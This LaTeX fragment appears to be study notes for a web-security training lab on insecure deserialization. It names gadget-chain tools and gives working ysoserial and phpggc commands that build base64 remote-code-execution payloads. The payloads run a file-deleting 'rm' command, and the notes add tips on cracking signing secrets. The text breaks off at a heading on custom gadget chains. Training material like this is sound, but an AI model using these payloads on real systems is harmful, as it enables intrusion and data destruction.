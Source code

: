 \documentclass[11pt]{article}
\newcommand{\tool}[1]{\textsf{\textbf{#1}}}
\begin{document}
\textbf{Tools:}
\begin{itemize}
    \item \tool{ysoserial} — Java gadget chains
    \item \tool{phpggc} — PHP gadget chains
    \item \tool{Universal Ruby Gadget} — documented chains for Ruby
\end{itemize}

\begin{checklistbox}
\begin{itemize}
    \item[\checkmark] Identify the framework from error messages (e.g., \texttt{Symfony 4.3.6})
    \item[\checkmark] \textbf{Java:} \texttt{/usr/lib/jvm/java-8-openjdk/bin/java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64}
    \item[\checkmark] \textbf{PHP:} \texttt{./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64}
    \item[\checkmark] \textbf{Ruby:} Use documented \texttt{Gem::Requirement} / \texttt{Net::BufferedIO} chain
    \item[\checkmark] If payload is signed (HMAC/encrypted), leak or crack the secret first
    \item[\checkmark] Try multiple chain variants if the first fails (different versions)
\end{itemize}
\end{checklistbox}

\subsubsection{Path E: Custom Gadget Chain Construction}

When no pre-built chain exists, construct your own:
\end{document}
